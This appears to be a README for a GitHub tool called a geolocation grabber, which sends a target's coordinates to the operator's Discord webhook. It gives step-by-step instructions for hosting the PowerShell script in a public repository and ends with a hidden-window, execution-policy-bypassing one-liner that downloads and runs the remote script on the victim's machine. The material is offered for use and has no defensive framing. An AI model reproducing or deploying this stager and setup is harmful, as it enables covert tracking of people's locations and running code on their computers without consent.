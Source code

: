 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<p> ![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image1?raw=true <p/>
<p>put geolocationgraber.ps1.txt in and commit changes <p/>
<p>click geolocationgraber.ps1.txt<p/>
<p> ![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image2 <p/>
<p>click the pen<p/>
<p>del .txt<p/>
<p> ![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image3 <p/>
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
<p> ![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image4 <p/>
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
<p><p/>
<p> ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex``` <p/>
<p><p/>
